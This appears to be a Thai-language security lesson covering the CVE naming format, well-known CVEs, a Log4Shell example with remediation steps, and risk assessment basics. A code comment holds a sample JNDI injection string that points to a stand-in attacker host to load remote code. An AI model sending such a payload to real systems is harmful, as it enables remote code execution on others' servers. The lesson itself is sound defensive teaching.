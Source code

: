 
## 🏷️ Common Vulnerabilities and Exposures (CVE)

**CVE คืออะไร?** ระบบมาตรฐานสากลสำหรับการตั้งชื่อและอ้างอิงช่องโหว่ความปลอดภัยที่ทราบแล้ว

### 📝 รูปแบบ CVE ID
```
CVE-YYYY-NNNNN
```
- **YYYY** = ปีที่ค้นพบหรือเผยแพร่
- **NNNNN** = หมายเลขลำดับ (ขั้นต่ำ 4 หลัก)

### ตัวอย่าง CVE ที่มีชื่อเสียง:
- **CVE-2014-0160** - Heartbleed (OpenSSL)
- **CVE-2017-5638** - Apache Struts 2
- **CVE-2021-44228** - Log4Shell (Log4j)
- **CVE-2021-34527** - PrintNightmare (Windows)

---

## 🔥 ตัวอย่าง CVE: Log4Shell (CVE-2021-44228)

**ช่องโหว่ที่สะเทือนโลก**
- **CVSS Score:** 10.0 (Critical)
- **ผลกระทบ:** Remote Code Execution

### ❌ Vulnerable Log4j Usage:
```java
// Java - Vulnerable to JNDI Lookup
logger.info("User input: " + userInput);

// Malicious input: ${jndi:ldap://attacker.com/malicious}
// Result: โหลดและรัน malicious code จาก server ของผู้โจมตี
```

### ✅ การแก้ไข:
- อัปเดต Log4j เป็นเวอร์ชั่น 2.17.0 หรือใหม่กว่า
- ปิดการใช้งาน JNDI Lookup: `-Dlog4j2.formatMsgNoLookups=true`
- ใช้ Input Validation และ Sanitization
- ตรวจสอบ dependencies ที่ใช้ Log4j

---

## 📊 การประเมินความเสี่ยง (Risk Assessment)

**คำนิยาม:** กระบวนการระบุ วิเคราะห์ และประเมินความเสี่ยงที่อาจเกิดขึ้นกับระบบหรือองค์กร

### 🎯 วัตถุประสงค์
- ระบุภัยคุกคามและช่องโหว่
- ประเมินผลกระทบที่อาจเกิดขึ้น
- คำนวณระดับความเสี่ยง
- จัดลำดับความสำคัญในการแก้ไข
- วางแผนมาตรการป้องกัน

---